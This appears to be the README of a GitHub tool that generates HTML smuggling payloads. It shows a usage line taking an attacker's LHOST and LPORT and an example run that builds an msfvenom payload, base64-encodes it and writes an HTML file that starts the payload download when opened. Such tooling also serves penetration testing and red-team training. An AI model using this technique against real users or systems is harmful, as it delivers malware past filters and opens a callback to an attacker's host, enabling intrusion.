 # Usage
```
generator.sh <LHOST> <LPORT> [HTML_FILENAME] [BINARY_FILENAME]
```

# Example
```bash
generator.sh 10.10.17.3 80
[+] Generating the payload with msfvenom
[+] Encoding the payload to base64
[+] HTML file 'payload.html' created successfully.
```
The HTML file is set to initiate the download of the payload.
![image](https://github.com/selmankon/HTML-Smuggling-Payload-Generator/assets/12685802/324f6063-5d7a-406c-8ad6-cc3da38e60c5)
